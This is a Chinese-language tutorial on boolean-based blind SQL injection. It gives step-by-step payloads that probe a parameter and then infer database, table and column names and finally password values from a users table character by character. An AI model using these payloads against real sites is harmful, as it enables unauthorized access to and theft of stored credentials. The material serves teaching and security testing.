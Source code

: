 ### 基本过程

**注入点检测**

找到一个可以进行注入的参数位置，通常通过简单的测试 ```1=1```（始终为真）和 ```1=2```（始终为假）的情况观察响应的变化。例如：

```html
http://example.com/item?id=1 AND 1=1   --> 页面正常显示
http://example.com/item?id=1 AND 1=2   --> 页面异常或不同
```

如果响应页面存在显著差异，说明该参数存在布尔盲注的可能性。

------

**推测数据结构**      

使用逐步的逻辑表达式查询数据库元信息：

```sql
#推测当前使用的数据库：
id=1 AND DATABASE() LIKE 'test%'
```

判断当前数据库名是否以 `test` 开头。

```sql
#获取数据库长度：
id=1 AND LENGTH(DATABASE())=4
```

判断当前数据库名是否为 4 个字符 ，可以写成循环来判断。

```sql
#字符逐个推测： 假设数据库名长度为 4，逐字符尝试：
id=1 AND SUBSTRING(DATABASE(), 1, 1)='t'  --> 第一个字符是否是 't'
id=1 AND SUBSTRING(DATABASE(), 2, 1)='e'  --> 第二个字符是否是 'e'
id=1 AND SUBSTRING(DATABASE(), 3, 1)='s'  --> 第三个字符是否是 's'
id=1 AND SUBSTRING(DATABASE(), 4, 1)='t'  --> 第四个字符是否是 't'
```

------

**获取表名**   使用 ```information_schema.tables```  推测表名：

```sql
#获取表的数量：
id=1 AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=DATABASE())=5
```

判断当前数据库中是否有 5 个表，可以写成循环来判断。

```sql
#获取表名长度：
id=1 AND LENGTH((SELECT table_name FROM information_schema.tables WHERE table_schema=DATABASE() LIMIT 0,1))=6
```

判断第一个表的名称长度为 6，可以写成循环来判断。

```sql
#推测表名字符：
id=1 AND SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=DATABASE() LIMIT 0,1),1,1)='u'
```

------

**获取字段名**

使用 ```information_schema.columns``` 获取字段名：

```sql
#获取字段数量：
id=1 AND (SELECT COUNT(*) FROM information_schema.columns WHERE table_schema=DATABASE() AND table_name='users')=3
```

判断表 `users` 中是否有 3 个字段，可以写成循环来判断。

```sql
#获取字段名长度，可以写成循环来判断：
id=1 AND LENGTH((SELECT column_name FROM information_schema.columns WHERE table_schema=DATABASE() AND table_name='users' LIMIT 0,1))=5
```

```sql
#推测字段名字符，可以写成循环来判断：
id=1 AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema=DATABASE() AND table_name='users' LIMIT 0,1),1,1)='i'
```

------

**获取字段值**

使用逐字符猜测字段值：

 假设字段 ```password```在表```users```中：

```sql
#  获取字段值长度：
id=1 AND LENGTH((SELECT password FROM users LIMIT 0,1))=8
```

```sql
#  获取字段值字符：
id=1 AND SUBSTRING((SELECT password FROM users LIMIT 0,1),1,1)='p'
```